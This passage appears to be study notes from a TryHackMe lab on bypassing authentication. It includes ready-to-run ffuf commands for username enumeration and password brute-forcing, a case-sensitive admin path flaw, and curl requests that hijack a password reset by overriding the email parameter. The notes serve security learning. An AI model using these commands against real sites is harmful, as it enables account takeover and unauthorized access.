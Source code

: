 Common flaws in authentication mechanism that allow bypassing.

# 1. Username enumeration
Very helpful practice when trying to find auth vulns is creating a list of valid usernames, which we'll use later in other tasks.
This is usually done through website error messages. For example: `An account with this username already exists` 
The ffuf tool uses a list of commonly used usernames to check against for any matches.
```shell-session
user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.56.253/customers/signup -mr "username already exists" > usernames.txt
```
`-X` - specify the HTTP method
`-d` - specify the data that will be sent.
`-H` - specify the content type header as form data.
`-u` - specify the URL.
`-mr` - specify the regex expression for successful enum.

# 2. Brute Force
With the valid usernames already listed, we can attempt to brute force the login page. This is an automated process that tries a list of commonly used passwords against one or a list of usernames.

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.80.116/customers/login -fc 200
```
`-fc` - Ignores 200 codes, for when successful login returns 302 codes for example.

# 3. Logic Flaws in Authentication
A **logic flaw** happens when an application’s **intended logical flow** can be **bypassed, circumvented, or abused**.
It often results from **bad assumptions** or **improper sequencing** in code - **Design Errors**
#### Logic Flaw Example (Case-sensitive Path Check)
```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
- This code **only checks for lowercase `/admin`**.
    
- A user can access **`/adMin` or `/Admin`** and **bypass the check**, due to case-sensitivity and flawed logic.
#### Password Reset Flaw Overview

- The app first asks for an **email**, If valid, it proceeds to ask for the **username**.
- The reset confirmation is sent to the **email entered in the first step** (or so it seems).
###### The Vulnerability:
- **PHP `$_REQUEST`** merges data from both `$_GET`, `$_POST`, and `$_COOKIE`.
- If **`email` is passed both in GET and POST**, PHP gives **priority to POST** data.
###### Exploitation Steps

- Step 1: Use a legitimate email in the **GET** parameter:  
    `?email=robert@acmeitsupport.thm`
    
- Step 2: Override the email using **POST data**:  
    `-d 'username=robert&email=attacker@hacker.com'`
    
- Outcome: Password reset email is sent to the **attacker's email** instead of the real user's.
##### Curl Commands Used
- **Normal Request:**
```` bash
curl 'http://10.10.184.213/customers/reset?email=robert@acmeitsupport.thm' \ -H 'Content-Type: application/x-www-form-urlencoded' \ -d 'username=robert' 
````
   
- **Exploit Request (Overriding Email):**
```` bash
curl 'http://10.10.184.213/customers/reset?email=robert@acmeitsupport.thm' \ -H 'Content-Type: application/x-www-form-urlencoded' \ -d 'username=robert&email=attacker@hacker.com'   
````
##### 📌 Real-World Lessons

- **Email-based password reset logic** can be tricked if the server uses `$_REQUEST` improperly.
    
- Always check for:
    - **Redundant parameters** (GET + POST with same name).
    - **Improper trust in user-controlled inputs** (e.g., trusting `$_REQUEST` without validation).
    
- **Logic flaws** don’t rely on technical exploits like buffer overflows but on **bad design**.

# 4. Cookie Tampering
